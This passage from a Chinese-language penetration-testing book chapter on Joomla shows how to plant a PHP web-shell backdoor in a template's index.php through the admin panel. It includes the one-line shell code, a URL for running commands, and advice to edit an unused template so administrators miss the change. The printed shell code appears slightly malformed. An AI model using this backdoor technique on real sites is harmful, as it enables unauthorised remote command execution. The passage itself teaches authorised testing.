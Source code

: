 利用此漏洞后，一旦我们以管理员身份成功登录，我们就可以从 templates 菜单上载 shell。以下屏幕截图显示了 Joomla 的管理面板：

![](assets/0f3daf8f-deb5-43d1-865c-03c1ef5d159f.png)

从面板的菜单中，单击扩展|模板|模板，如图所示：

![](assets/eb7f8860-6a33-4368-9547-996a7f5fe653.png)

我们被重定向到模板页面，其中列出了当前上传的所有模板，包括当前正在使用的模板。最好不要触摸当前模板，因为这可能会导致管理员注意到更改并发现我们的代码：

![](assets/7b30ff10-0af6-49fd-bc55-c8b4cb80fed2.png)

前面的屏幕截图显示了模板列表。我们将选择 Protostar，因此单击该模板，然后您将被重定向到下一页，在该页的左侧，列出了该模板的所有 PHP 页面，如图所示：

![](assets/b1bb9f06-3347-4e52-8e4d-43f2a1dd4b3f.png)

我们单击 index.php 并将定制的 php 一行代码添加到文件中。这起到了后门的作用，允许我们执行系统级命令：

```
<?php passthru($GET['cmd']); ?>
```

以下屏幕截图显示索引的第一行现在有了我们的后门：

![](assets/44711f34-0857-42a5-8816-3e4eab8efa0c.png)

保存更改后，我们可以通过以下路径浏览我们的后门：

```
domainname.com/<joomla path>/templates/<template name>/index.php?cmd=id
```

以下屏幕截图显示我们的命令已成功执行：

![](assets/0f8be83b-b9e5-48f8-b61c-d476a4af7543.png)

一旦我们向客户提供了概念证明，Joomla 的开发就结束了。然而，超出正常的开发方法并进入网络是需要在项目启动会议上与客户讨论的事情。作为笔测试人员，我们必须遵守客户定义的范围。

如果上传任何此类有效负载只是为了获得概念验证，我们有义务在攻击完成后移除这些后门。

# 总结

在本章中，我们学习了 Joomla 体系结构及其文件和目录结构。然后，我们进入了侦察过程，了解了查找 Joomla 实例及其版本号的不同方法。我们还研究了为我们实现过程自动化的工具和脚本。最后，我们研究了 Joomla 漏洞利用的深入过程，并使用以前发现的公开漏洞利用的示例研究了漏洞利用的工作原理。

在下一章中，我们将学习如何在另一个流行的 CMS Drupal 上执行笔测试。

# 问题

1.  我可以在任何操作系统上安装 Joomla 吗？

2.  如果现有的 Metasploit 模块找不到 Joomla 版本，我可以创建自己的 Metasploit 模块吗？

3.  Metasploit 模块无法检测到安装的 Joomla 版本。有没有其他检测方法？

4.  我利用 Joomla 上传漏洞上传了一个 shell。是否有可能以任何隐蔽的方式对 CMS 进行后门操作？

# 进一步阅读

*   Joomla 中易受攻击的扩展列表可在[中找到 https://vel.joomla.org/live-vel](https://vel.joomla.org/live-vel) 。

*   有关 Joomla 架构的更多信息，请参见[https://docs.joomla.org/Archived:CMS_Architecture_in_1.5_and_1.6](https://docs.joomla.org/Archived:CMS_Architecture_in_1.5_and_1.6) 。